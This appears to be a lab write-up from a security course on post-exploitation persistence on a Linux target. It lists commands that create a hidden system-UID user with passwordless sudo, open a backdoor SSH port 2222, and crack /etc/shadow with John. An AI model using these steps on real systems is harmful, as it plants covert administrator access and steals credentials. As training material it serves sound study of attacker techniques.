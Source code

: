 ## Advanced Bash - Owning the System

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - `useradd -M sysd`

2. Give your secret user a password: 
    - `passwd sysd`

3. Give your secret user a system UID < 1000:
    - `usermod -u 888 sysd`

4. Give your secret user the same GID:
   - `groupmod -g 888 sysd`

5. Give your secret user full `sudo` access without the need for a password:
   -  `visudo` 

![](Images/give-secret-user-sudo-access.jpg)
<br>
<br>

![](Images/sysd-commands-with-sudo.jpg)
    
- `sudo -k` to clear existing password cache.
<br>
<br>

6. Test that `sudo` access works without your password:

![](Images/no-password-needed.jpg)

<br>

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

![](Images/ssh-port-2222.jpg)

<br>

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - `sudo service sshd restart`

2. Exit the `root` account:
    - `exit`

3. SSH to the target machine using your `sysd` account and port `2222`:

![](Images/ssh-sysd.jpg)

4. Use `sudo` to switch to the root user:

![](Images/root-ssh.jpg)

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - `ssh sysd@192.168.6.105 -p 2222`

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

![](Images/cracking-passwords.jpg)
---



